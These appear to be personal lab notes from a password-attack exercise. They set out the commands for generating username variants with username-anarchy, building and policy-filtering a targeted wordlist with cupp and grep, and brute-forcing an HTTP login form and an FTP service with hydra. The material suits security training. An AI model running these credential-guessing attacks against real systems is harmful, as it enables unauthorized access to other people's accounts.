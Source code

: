 ___

```bash
git clone https://github.com/urbanadventurer/username-anarchy.git
cd username-anarchy
./username-anarchy Jane Smith > jane_smith_usernames.txt
```

```bash
cupp -i
```

Filter that password list to match that policy,
```bash
grep -E '^.{6,}$' jane.txt | grep -E '[A-Z]' | grep -E '[a-z]' | grep -E '[0-9]' | grep -E '([!@#$%^&*].*){2,}' > jane-filtered.txt
```


```bash
hydra -L username-anarchy/jane_smith_usernames.txt -P jane-filtered.txt 94.237.56.137 -s 33347 -f  
http-post-form "/:username=^USER^&password=^PASS^:Invalid credentials"
```

![[Pasted image 20241004150612.png]]

```bash
./username-anarchy Thomas Smith > usernames.txt
```

```bash
hydra -L usernames.txt -P passwords.txt ftp://localhost
```

![[Pasted image 20241004152202.png]]